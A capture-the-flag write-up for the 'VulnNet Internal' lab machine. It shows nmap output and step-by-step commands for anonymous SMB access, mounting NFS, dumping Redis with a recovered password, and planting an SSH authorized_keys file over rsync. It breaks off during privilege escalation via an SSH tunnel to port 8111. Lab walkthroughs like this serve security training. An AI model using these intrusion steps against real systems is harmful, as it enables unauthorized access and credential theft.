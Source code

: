 ```yaml
---
layout: default
title : muzec - VulnNet Internal Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117644973-0be92800-b158-11eb-8763-22e426da1bd4.png)

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can't make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you're tasked to perform a penetration test of their network and report your findings.

    Difficulty: Easy/Medium
    Operating System: Linux

This machine was designed to be quite the opposite of the previous machines in this series and it focuses on internal services. It's supposed to show you how you can retrieve interesting information and use it to gain system access. Report your findings by submitting the correct flags. 

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Mon May 10 03:22:51 2021 as: nmap -sC -sV -oA nmap 10.10.174.95
Nmap scan report for 10.10.174.95
Host is up (0.59s latency).
Not shown: 992 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33966/udp6  mountd
|   100005  1,2,3      48735/tcp6  mountd
|   100005  1,2,3      57104/udp   mountd
|   100005  1,2,3      60145/tcp   mountd
|   100021  1,3,4      34733/tcp   nlockmgr
|   100021  1,3,4      37755/tcp6  nlockmgr
|   100021  1,3,4      41102/udp6  nlockmgr
|   100021  1,3,4      46449/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
8021/tcp filtered ftp-proxy
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h20m08s, deviation: 1h09m15s, median: 3h00m07s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-10T12:39:18+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-10T10:39:17
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 10 03:39:32 2021 -- 1 IP address (1 host up) scanned in 1000.27 seconds
```
So we have ports open probably like 6 if am right ok let begin since we have smb open also let try it first checking for smb shares we have anonymous access to them.

`smbclient -L //10.10.174.95/ -N `


![image](https://user-images.githubusercontent.com/69868171/117648126-d9412e80-b15b-11eb-8c32-de81f0dbe19a.png)


We have one share we can easily access it with the commands below;

`smbclient  //10.10.174.95/shares -N`

![image](https://user-images.githubusercontent.com/69868171/117648196-ecec9500-b15b-11eb-8fc0-43b3d04cfab6.png)


And we are in.

![image](https://user-images.githubusercontent.com/69868171/117648276-04c41900-b15c-11eb-8a9d-bb89af31776a.png)

Checking the temp folder we found the first flag `services.txt` and moving to the data folder some txt file but not that useful to me just some random messages.

![image](https://user-images.githubusercontent.com/69868171/117648536-55d40d00-b15c-11eb-9517-2794bc990d6b.png)

Now going back to the scanning checking through the port i can see we have port 2049 NFS open, NFS port 2049 It is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory.

![image](https://user-images.githubusercontent.com/69868171/117649228-443f3500-b15d-11eb-8f08-04f607c92825.png)

How to Mount it:

1. showmount -e 10.10.174.95
2. mkdir /tmp/NFS
3. mount -t nfs 10.10.174.95:/opt/conf /tmp/NFS
4. df -k

Now we can easily access the mount folder now.

![image](https://user-images.githubusercontent.com/69868171/117649479-91bba200-b15d-11eb-96f3-b3fe89862df2.png)

Now since we have redis port open am checking the folder maybe we can get a credentials for it to log into redis, so we have some conf file of redis let check it.

![image](https://user-images.githubusercontent.com/69868171/117649924-173f5200-b15e-11eb-986c-019a84212cce.png)

And we have a password time to enumerate redis port 6379 .

![image](https://user-images.githubusercontent.com/69868171/117650301-8b79f580-b15e-11eb-9d5b-20e200b0fc59.png)

Typing `info` give use the active databases on redis time to dump it.

![image](https://user-images.githubusercontent.com/69868171/117650422-ac424b00-b15e-11eb-87eb-ab2d7fbbbe6a.png)

![image](https://user-images.githubusercontent.com/69868171/117650683-04794d00-b15f-11eb-86bb-bf6c1d1676dc.png)

`redis-dump -u 10.10.174.95 -a Password > db_full.json`

So we have the `internal flag` with some base64 strings let decode it.

![image](https://user-images.githubusercontent.com/69868171/117650905-4609f800-b15f-11eb-9f43-dcaa07b92165.png)

And we have the decoded strings with some new password.

![image](https://user-images.githubusercontent.com/69868171/117651079-84071c00-b15f-11eb-8d99-a0b10324889a.png)

rsync Ok let explain what is rsync? rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification times and sizes of files. It is commonly found on Unix-like operating systems. Rsync is written in C as a single threaded application. thanks Wikipedia .

### Rsync Useage .

`rsync runs on port 873`

![image](https://user-images.githubusercontent.com/69868171/117651766-51115800-b160-11eb-8784-49bd2426f545.png)

`rsync -a rsync://rsync-connect@10.10.174.95/` 

Boom we can see a files in the home directory now let try to get it onto our system.

`rsync -a rsync://rsync-connect@10.10.174.95/files ./rsync` 

![image](https://user-images.githubusercontent.com/69868171/117652296-ff1d0200-b160-11eb-814e-e9f1d37b0a60.png)

So we have to give it time for it to transfer.

![image](https://user-images.githubusercontent.com/69868171/117652941-caf61100-b161-11eb-99a7-401c394b077d.png)

And it ready let change directory.

![image](https://user-images.githubusercontent.com/69868171/117653064-f678fb80-b161-11eb-90e0-4a41008316a4.png)

And we have `user.txt` also a cool ssh folder hahahahahaha but checking the ssh folder it was empty so sad .

![image](https://user-images.githubusercontent.com/69868171/117653215-1f998c00-b162-11eb-89ca-bbd346d5f9b8.png)

Going around so since we can use use `rsync` to transfer files out i guess we can also use it to transfer file in probably ssh authorized_keys . So i generate a SSH keys with ` ssh-keygen -t rsa`

![image](https://user-images.githubusercontent.com/69868171/117653988-2379de00-b163-11eb-9100-7b8ae6741878.png)

So i rename the id_rsa.pub to authorized_keys now time to get it onto the target.

`rsync -av authorized_keys rsync://rsync-connect@10.10.174.95:/files/sys-internal/.ssh`

![image](https://user-images.githubusercontent.com/69868171/117654358-a4d17080-b163-11eb-8631-f58637e2fb80.png)

Boom and we have it transfer, time to SSH into the machine with the private key we have.

1. we have to give the private key a permission `chmod 600 id_rsa`
2. we have the username which is `sys-internal`
3. Let hit SSH

`ssh -i id_rsa sys-internal@10.10.174.95`

![image](https://user-images.githubusercontent.com/69868171/117654931-6ab49e80-b164-11eb-9ea6-9a5de6c51bd5.png)

And we are in awesome but the journey is not yet completed.

### Privilege Escalation

I always check what ports is running if i get access to a machine but `netstat` was missing on the target so i try using `ss -tulpn | grep LISTEN` .

![image](https://user-images.githubusercontent.com/69868171/117655454-18c04880-b165-11eb-9a42-e195ea6f0cfd.png)

Hmmm port 8111 look interesting now let set up SSH Tunneling (Port Forwarding) .

![image](https://user-images.githubusercontent.com/69868171/117655768-80769380-b165-11eb-8a07-db1f48533168.png)

`ssh -i id_rsa -L 8111:localhost:8111 sys-internal@10.10.174.95`

Now let visit `localhost:8111` to confirm it.

![image](https://user-images.githubusercontent.com/69868171/117656607-8e78e400-b166-11eb-94e7-79ec757e877d.png)

So i click on Log in as a Super user to create an administrator account. 

